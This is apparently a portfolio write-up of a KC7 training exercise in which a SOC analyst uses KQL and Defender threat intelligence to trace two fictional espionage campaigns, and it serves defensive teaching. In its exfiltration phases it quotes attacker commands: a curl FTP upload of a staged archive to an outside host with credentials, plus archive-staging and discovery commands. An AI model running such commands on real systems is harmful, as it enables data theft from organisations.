

# SOC Investigation - Nation-State Espionage with Microsoft Defender XDR Threat Intelligence (KC7 "Titan Shield")

## Description

Threat-intelligence-driven SOC investigation at a fictional defence contractor, TitanShield, completed on the [KC7 Cyber](https://kc7cyber.com) platform. I combined **KQL** log analysis with **Microsoft Defender XDR Threat Intelligence** (Intel Explorer, actor profiles, articles) to uncover and attribute two separate nation-state campaigns that both began on the same day:

1. **Moonstone Sleet (North Korea).** Reconnaissance of TitanShield's engineers, then a fake "NFT game investment" email with a trojanized tank game, ending in the theft of the top-secret **Project Omega**.
2. **Crimson Sandstorm (Iran).** Found by **not dismissing a "low-fidelity" EDR alert**. A months-long romance lure led to a macro, discovery commands on 15 network engineers' machines, and the collected data emailed out to an attacker mailbox.

> **Platform:** KC7 Cyber, module *Titan Shield: A showcase of Microsoft Defender XDR* · **Status:** completed, 65/65 questions, 4,000 points
> **Tools:** Microsoft Defender XDR Threat Intelligence · Azure Data Explorer (Kusto) · KQL · MITRE ATT&CK

---

## Executive Summary (Incident Report)

| | Case 1: Moonstone Sleet | Case 2: Crimson Sandstorm |
|---|---|---|
| **Attribution** | North Korean actor; espionage and revenue generation; overlaps with Diamond Sleet | Iranian actor (also tracked as Curium); attributed via an actor domain in Defender TI |
| **How it was detected** | User report: slow PC after installing a game he'd seen on LinkedIn | EDR alert on a `whoami` command, flagged as historically low-fidelity |
| **Reconnaissance** | `45.61.133[.]15` searched the company site for engineer emails, the email format and the IT director (5 Jul 2024) | 47 inbound requests from 2 actor IPs from 5 Jul 2024; employees researched on LinkedIn |
| **Initial access** | Email *"Opportunity to Invest in NFT Game Project"* from `founder@ccwaterfall[.]com` linking to `detankwar[.]com` | Romance persona `marcella_flores@gmail[.]com`; "diet plan" spreadsheet with a macro |
| **Victims** | **6 of 6 recipients clicked**: 5 Defense Engineers and 1 Lead Defense Engineer | 15 hosts: 14 Network Engineers and 1 Senior Network Engineer |
| **Exfiltration** | Project Omega share → `TopSecret.zip` → FTP to `matrixane[.]com` | `Logs.zip` emailed from David Jackson's account to `exfilbucket93@gmail[.]com` |
| **Impact** | **Classified Project Omega data stolen** | System, user and software inventory of the network team stolen; groundwork for further intrusion |

**Priority actions:** isolate affected hosts; block IOCs at DNS, proxy, mail and EDR; reset the victims' credentials and enforce MFA; brief the Project Omega programme owner and the authorities responsible for classified data; run targeted social-engineering awareness for engineers. Details are under [Response Recommendations](#response-recommendations).



---

## Case 1: Moonstone Sleet and the Trojanized Tank Game

### Phase 1: From user report to a malicious hash

James Douglas reported that his PC had been acting strangely since he installed a game he first heard about in a **LinkedIn post**, *DeTankWar*.

| Who | Detail |
|---|---|
| James Douglas | **Lead Defense Engineer**, `UB9I-DESKTOP`, `10.10.0.10`, username `jadouglas` |
| Account note | **MFA disabled** on his account, raising the risk of credential reuse after a compromise |

```kql
FileCreationEvents
| where hostname == "UB9I-DESKTOP"
| where filename contains "DeTankWar"
```

**Finding:** `C:\Users\jadouglas\Downloads\DeTankWar.exe`, created **2024-07-09 14:59:23**, SHA256 `56554117d96d12bd3504ebef2a8f28e790dd1fe583c33ad58ccbf614313ead8c`.

### Phase 2: Threat intelligence and attribution (Defender XDR)

I searched the hash in **Defender XDR Intel Explorer**:

| Intel | Finding |
|---|---|
| File score | **100** (high confidence malicious) |
| Attribution | **Moonstone Sleet** |
| Actor profile | Based in **North Korea**; targets software, IT, education and the **defence industrial base**; goals are **espionage and revenue generation**; overlaps with **Diamond Sleet** |
| Linked article | *"Moonstone Sleet using malicious tank game to infect devices"*, campaign active since **February 2024**, delivered via **messaging platforms and email** |
| IOCs in the article | Lure domain `detankwar[.]com`; second-stage DLLs `NVUnityPlugin.dll` / `UnityPlayer.dll`; C2 domains `mingeloem[.]com`, `matrixane[.]com` |

**Analyst reasoning:** a hash on its own says nothing. TI turned it into *who*, *why* and a list of new IOCs to hunt for in our own logs.

### Phase 3: Delivery infrastructure and reconnaissance

```kql
OutboundNetworkEvents
| where src_ip == "10.10.0.10"
| where url contains "DeTankWar"
```

James downloaded the file from `detankwar[.]com` four seconds before it appeared on disk. I pivoted on the domain:

```kql
PassiveDns
| where domain contains "detankwar.com"
| distinct ip
```

`detankwar[.]com` resolves to **`45.61.133[.]15`**. That IP visited TitanShield's website **9 times on 5 July 2024 (00:00 to 14:51)** with searches such as:

- *defense engineer email*, *titan shield email format*, *titan shield email password*
- *titan shield IT director*, *who is titan shield engineer*, *titan shield engineer linkedin account*
- blog posts like *"our employees love tanks and here is why"*

**Analyst reasoning:** this is targeting research. The actor learned **who the defence engineers are, how to reach them, and that they like tanks**, and built a tank-game lure to match. Pivoting from a delivery domain to inbound web logs exposed planning that triggered no alert.

→ [`01-moonstone-sleet-initial-compromise.kql`](queries/01-moonstone-sleet-initial-compromise.kql)

### Phase 4: Scoping and patient zero

The game is on **6 hosts**, and patient zero was not James:

| First seen | Host | User | Malicious DLL dropped |
|---|---|---|---|
| **2024-07-05 15:05:52** | Y4GN-DESKTOP | etjohnson (**patient zero**) | 2024-07-08 16:49:06 |
| 2024-07-05 15:08:00 | XDNT-DESKTOP | amali | 2024-07-08 16:30:33 |
| 2024-07-08 12:50:26 | CRSO-MACHINE | rypatel | 2024-07-09 15:46:15 |
| 2024-07-09 14:59:23 | UB9I-DESKTOP | jadouglas | 2024-07-10 10:26:39 |
| 2024-07-11 14:21:26 | F3UV-DESKTOP | lunguyen | 2024-07-12 11:58:17 |
| 2024-07-12 12:24:28 | ZUGB-MACHINE | hekim | 2024-07-15 16:09:44 |

Patient zero **Ethan Johnson** (Defense Engineer, `10.10.0.19`) clicked a link at **15:05:27**. The email behind it:

| Field | Value |
|---|---|
| Received | **2024-07-05 15:02:27** (3 minutes before the click) |
| Sender | `founder@ccwaterfall[.]com` |
| Subject | *"[EXTERNAL] Opportunity to Invest in NFT Game Project"* |
| Link | `https://detankwar[.]com/share/images/DeTankWar.exe` |
| Recipients | **6 employees, and all 6 clicked**: 5 Defense Engineers and 1 Lead Defense Engineer |

```kql
let targets = Email
| where link contains "detankwar"
| distinct recipient;
Employees
| where email_addr in (targets)
| summarize count() by role
```

**Analyst reasoning:** the recon ended at **14:51** and the phishing email arrived at **15:02**, 11 minutes later. The recipients are exactly the role the recon searched for. Every host then followed the same pattern: game first, malicious DLL hours or days later, consistent with the TI article. A hunt on the DLL's hash (`09d152aa…cc38`, also attributed to Moonstone Sleet) confirmed the second stage on all 6 hosts.

→ [`02-moonstone-sleet-scoping.kql`](queries/02-moonstone-sleet-scoping.kql)

### Phase 5: What was stolen?

Hunting the article's C2 domains in command lines found the exfiltration. I then worked backwards:

| Step | Command evidence | Meaning |
|---|---|---|
| Exfiltration | `curl -T C:\ReadyToGo\TopSecret.zip ftp://matrixane[.]com/upload/ --user exfil:tankpass` | Archive uploaded over FTP with hard-coded credentials |
| Staging | `Compress-Archive -Path C:\StagingArea\*` → `TopSecret.zip` | Data packed for transfer |
| Collection | `Copy-Item -Path \\company_share\confidential\defense\project_omega\*` → `C:\StagingArea` | **Project Omega** copied from the confidential share |

**Assessment:** a planned, targeted espionage operation by a North Korean actor. It went from recon to phishing in 11 minutes, achieved a 100% click rate, and ended in hands-on-keyboard theft of classified defence data. This is a reportable incident, not just a malware clean-up.

→ [`03-moonstone-sleet-exfiltration.kql`](queries/03-moonstone-sleet-exfiltration.kql)

---

## Case 2: Crimson Sandstorm and the Romance Lure

### Phase 1: Triage a "low-fidelity" alert, properly

The EDR raised an alert for `whoami` on the device of **Christopher Taylor** (`chtaylor`, Network Engineer, `IL5M-DESKTOP`, `10.10.0.79`). The rule had a history of false positives, but it's never resolved without context.

```text
2024-07-20 03:58:19  cmd.exe /c echo PC and User Names -------- >>%temp%\Logs.txt && whoami >>%temp%\Logs.txt
```

**Analyst reasoning:** `whoami` alone is noise. But `whoami` at 4 a.m., *with output appended to a hidden log file in %temp%*, is collection behaviour. So I **pivoted on the pattern** (`echo … >> Logs.txt`) instead of the single command:

| Pivot | Finding |
|---|---|
| Same pattern on Taylor's machine | **39** commands, including `ping yandex.com` and `wmic product get name,version` (installed-software inventory) |
| Same pattern company-wide | **663** commands on **15 hosts** |
| Roles on those hosts | **14 Network Engineers, 1 Senior Network Engineer** |
| Ask the business | The Network Engineering manager and team **don't recognise the commands** |

```kql
let hosts = ProcessEvents
| where process_commandline has_all("echo", ">>", "logs.txt")
| distinct hostname;
Employees
| where hostname in (hosts)
| summarize count() by role
```

**Analyst reasoning:** "network engineers run odd scripts" was a plausible benign explanation, but plausible isn't verified. Asking the owning team turned "probably fine" into **confirmed malicious**. A whole team targeted by role means the actor did its homework on who runs the network.

→ [`04-crimson-sandstorm-alert-triage.kql`](queries/04-crimson-sandstorm-alert-triage.kql)

### Phase 2: Root cause on patient zero

| Time / source | Finding |
|---|---|
| 2024-07-17 10:47:43 | First `Logs.txt` command on IL5M-DESKTOP |
| Just before | Macro executed: `C:\temp\macro.xlsm` |
| Just before that | `New_Diet_Plan_For_My_Love.xlsx` opened (SHA256 `6aeef036eb85…7e73`) |
| `FileCreationEvents` | Created by **Edge.exe**, so downloaded from the web |
| `OutboundNetworkEvents` | Downloaded from `healthylifestyle[.]com/share/New_Diet_Plan_For_My_Love.xlsx` |
| `Email` | Link sent by **`marcella_flores@gmail[.]com`**, subject *"[EXTERNAL] RE: Relax with these yoga poses, baby! 🧘‍♂️"* |

**Interview with the user:** he had been talking to an online "special friend" for months. She promised to help with his health goals and asked him to fill in the spreadsheet. This was a **romance-based social-engineering lure** built up over months to beat suspicion.

→ [`05-crimson-sandstorm-root-cause.kql`](queries/05-crimson-sandstorm-root-cause.kql)

### Phase 3: Infrastructure, attribution and reconnaissance

| Pivot | Finding |
|---|---|
| All mail from the persona | **13 emails** with links to 3 domains: `outlook-services[.]com`, `yogalifestyle[.]com`, `healthylifestyle[.]com` |
| Domains in Defender TI | One domain attributed to **Crimson Sandstorm** (Curium) |
| **Passive DNS** on the actor domains | 2 IPs: `208.199.30[.]154`, `202.241.233[.]180` |
| Pivot back from those IPs | A further domain on the same infrastructure: `pilotlifestyle[.]com` |
| Actor IPs in `InboundNetworkEvents` | **47 requests** from **2024-07-05 00:00:00**, nearly two weeks before execution, including research on employees via **LinkedIn** |

**Analyst reasoning:** pivoting from email → domain → passive DNS → IP → inbound web logs uncovered both the pre-attack reconnaissance and an additional domain the actor hadn't used yet. These are better blocking candidates than the one-off file hash.

### Phase 4: Impact

| Finding | Detail |
|---|---|
| Exfiltration | Email **"Data Exfiltration PART 1 of Logs.zip"** sent from `david_jackson@titanshield.com` to **`exfilbucket93@gmail[.]com`** on **2024-08-04 02:26:55** |
| What was stolen | `Logs.zip`: the output of the discovery commands (users, hosts, installed software, connectivity) collected in `Logs.txt` |
| Victim's own behaviour | 6 Google searches, including one **about EDR alerts** on 2024-08-03 07:09:23, a day before the exfiltration. He noticed something but didn't report it |
| Romance pattern | His "girlfriend" never talked to him on **Thursdays and Fridays** |

**Analyst notes:**
- *"PART 1"* in the subject suggests **more exfiltration was planned**. Hunting for further parts should be part of the response.
- A persona that's consistently silent on Thursday and Friday matches the weekend in Iran. On its own it proves nothing, but it's a corroborating detail worth recording alongside the TI attribution.

→ [`06-crimson-sandstorm-infrastructure-and-impact.kql`](queries/06-crimson-sandstorm-infrastructure-and-impact.kql)

---

## Consolidated Timeline (2024, UTC)

| Time | Campaign | Event |
|---|---|---|
| 5 Jul 00:00 | Both | Reconnaissance starts: `45.61.133[.]15` (Moonstone Sleet) and Crimson Sandstorm's IPs browse TitanShield's website |
| 5 Jul 14:51 | Moonstone | Last recon request (engineer emails, email format, IT director) |
| 5 Jul 15:02 | Moonstone | "NFT Game Project" phishing email reaches 6 defence engineers |
| 5 Jul 15:05 | Moonstone | Patient zero Ethan Johnson clicks; DeTankWar.exe lands on Y4GN-DESKTOP |
| 5 to 12 Jul | Moonstone | Game installed on all 6 targets' hosts |
| 8 to 15 Jul | Moonstone | Malicious DLL dropped on all 6 hosts; Project Omega staged and exfiltrated to `matrixane[.]com` |
| 17 Jul 10:47 | Crimson | Macro from the "diet plan" spreadsheet runs on IL5M-DESKTOP; discovery commands begin |
| 20 Jul 03:58 | Crimson | `whoami` EDR alert fires; investigation starts |
| 3 Aug 07:09 | Crimson | David Jackson googles EDR alerts |
| 4 Aug 02:26 | Crimson | "PART 1 of Logs.zip" emailed to `exfilbucket93@gmail[.]com` |

## Indicators of Compromise

| Type | Indicator | Campaign |
|---|---|---|
| IPv4 | `45.61.133[.]15` | Moonstone Sleet: recon, hosts `detankwar[.]com` |
| Email | `founder@ccwaterfall[.]com` | Moonstone Sleet: phishing sender |
| Domain | `detankwar[.]com` | Moonstone Sleet: payload delivery |
| SHA256 | `56554117d96d12bd3504ebef2a8f28e790dd1fe583c33ad58ccbf614313ead8c` | Moonstone Sleet: DeTankWar.exe |
| SHA256 | `09d152aa2b6261e3b0a1d1c19fa8032f215932186829cfcca954cc5e84a6cc38` | Moonstone Sleet: malicious DLL |
| Domain | `matrixane[.]com`, `mingeloem[.]com` | Moonstone Sleet: C2 / exfiltration |
| File | `C:\StagingArea\`, `C:\ReadyToGo\TopSecret.zip` | Moonstone Sleet: staging |
| Email | `marcella_flores@gmail[.]com` | Crimson Sandstorm: romance persona |
| Domain | `outlook-services[.]com`, `yogalifestyle[.]com`, `healthylifestyle[.]com`, `pilotlifestyle[.]com` | Crimson Sandstorm: infrastructure |
| IPv4 | `208.199.30[.]154`, `202.241.233[.]180` | Crimson Sandstorm: infrastructure |
| SHA256 | `6aeef036eb85a470dbd6d039250172a510a8627b873e8b3b79fae5a7dd767e73` | Crimson Sandstorm: lure spreadsheet |
| File | `C:\temp\macro.xlsm`, `%temp%\Logs.txt`, `Logs.zip` | Crimson Sandstorm: execution and collection |
| Email | `exfilbucket93@gmail[.]com` | Crimson Sandstorm: exfiltration |

*Indicators are defanged (`[.]`) and come from a fictional training scenario that uses real Microsoft threat-actor names.*

## MITRE ATT&CK Mapping

| Tactic | Technique | Moonstone Sleet | Crimson Sandstorm |
|---|---|---|---|
| Reconnaissance | T1594 Search Victim-Owned Websites | 9 targeted searches | 47 inbound requests |
| Reconnaissance | T1589.002 Gather Victim Identity Info: Email Addresses | "email format", "engineer email" | |
| Reconnaissance | T1593.001 Search Open Websites: Social Media | LinkedIn | LinkedIn research of employees |
| Resource Development | T1583.001 Acquire Infrastructure: Domains | `detankwar[.]com`, `ccwaterfall[.]com` | Lifestyle-themed domains |
| Initial Access | T1566.002 Phishing: Spearphishing Link | "NFT Game Project" email | "Diet plan" link |
| Execution | T1204.002 User Execution: Malicious File | DeTankWar.exe | Spreadsheet |
| Execution | T1059.005 Visual Basic (macro) | | `macro.xlsm` |
| Discovery | T1033 System Owner/User Discovery | | `whoami` |
| Discovery | T1518 Software Discovery | | `wmic product get name,version` |
| Discovery | T1016.001 Internet Connection Discovery | | `ping yandex.com` |
| Collection | T1039 Data from Network Shared Drive | Project Omega share | |
| Collection | T1074.001 Local Data Staging | `C:\StagingArea` | `%temp%\Logs.txt` |
| Collection | T1560 Archive Collected Data | `Compress-Archive` → `TopSecret.zip` | `Logs.zip` |
| Exfiltration | T1048.003 Exfiltration Over Unencrypted Non-C2 Protocol | `curl -T` over FTP | |
| Exfiltration | T1048 Exfiltration Over Alternative Protocol (email) | | To an attacker Gmail address |

## Response Recommendations

**Containment and eradication**
1. Isolate the 6 Moonstone Sleet hosts and the 15 hosts with `Logs.txt` activity. Remove the game, DLLs, `macro.xlsm`, staging folders and archives.
2. Block all IOCs at DNS, proxy, firewall, mail gateway and EDR (IPs, domains, hashes, sender and recipient addresses), including the unused `pilotlifestyle[.]com`.
3. Reset credentials for every affected user, including David Jackson, and **enforce MFA**, starting with James Douglas, whose account had it disabled.
4. Rotate credentials for the systems the network engineers administer. The stolen inventory will be used to plan follow-on attacks.
5. Hunt for further *"PART n of Logs.zip"* emails and any other mail to the attacker mailbox.

**Notify and assess**
6. Escalate the Project Omega theft to the programme owner, legal, and the government authority responsible for classified defence information.
7. Review access logs on the Project Omega share for other unexpected readers.

**Prevent recurrence**
8. Block macros in files from the internet (Mark-of-the-Web policy). Use application allow-listing on engineering workstations, so no games or unapproved software can be installed.
9. Alert on bulk copy and archive operations against classified shares, and on outbound FTP.
10. Reduce what attackers can learn: review public blog and staff content that reveals roles and interests, and don't publish the email address format.
11. Run targeted awareness for high-value roles on **investment lures and long-game romance approaches**, and make reporting easy. A victim googled "EDR alerts" instead of calling the SOC.
12. Deploy the behaviour-based detections in [`07-detection-rules.kql`](queries/07-detection-rules.kql), and feed Defender TI indicators into watchlists.

## Lessons Learned

- **Threat intelligence turns an artefact into a campaign.** One hash led, through Defender TI, to the actor, its motives, its playbook, and new IOCs to hunt for internally.
- **Patient zero is rarely the person who reports it.** James reported the problem, but the timeline showed Ethan was infected four days earlier.
- **Infrastructure pivots reveal the planning.** Delivery domain → passive DNS → IP → inbound logs exposed recon that ended 11 minutes before the phishing email, and named the exact roles that were then targeted.
- **Never close a "low-fidelity" alert without context.** The `whoami` alert looked like noise and was the only signal of a second nation-state intrusion across 15 machines.
- **Pivot on behaviour, not single values.** Searching for the *pattern* `echo … >> Logs.txt` found 663 events. Searching for `whoami` alone would have found one.
- **"Plausible" isn't "verified."** "Network engineers run weird commands" was a reasonable hypothesis until the team itself said they didn't recognise them.
- **Attackers choose victims by role.** Both actors used public information and LinkedIn to pick their targets: defence engineers for the crown-jewel project, network engineers for the keys to the network.

## Skills Demonstrated

- Microsoft Defender XDR Threat Intelligence: Intel Explorer, file reputation, actor profiles, TI articles
- Threat-actor attribution and using TI-provided IOCs for internal hunting
- EDR alert triage, escalation and verification with the business
- KQL: `contains`, `has_all`, `has_any`, `in~`, `let` sub-queries, `join`, `parse_url`, `distinct`, `summarize`, temporal pivots
- Pivoting across email, file, process, web, passive DNS and inbound network data
- Patient-zero analysis and attack-chain reconstruction: recon → phishing → execution → discovery → collection → staging → exfiltration
- Recognising social engineering, including investment and romance lures
- MITRE ATT&CK mapping, detection engineering and incident reporting

A KQL and threat-intel quick reference is in [`docs/kql-and-ti-cheatsheet.md`](docs/kql-and-ti-cheatsheet.md).

---

*Scenario, data and story by [KC7 Cyber](https://kc7cyber.com) (sponsored by Microsoft); module authors Greg Schloemer and Simeon Kakpovi. Threat-actor names follow Microsoft's naming. Investigation notes, queries and write-up by Mazen Yousef.*

*Author: Mazen Yousef | [LinkedIn](https://linkedin.com/in/mazenyousef) | [TryHackMe](https://tryhackme.com/p/mazen.yousef)*
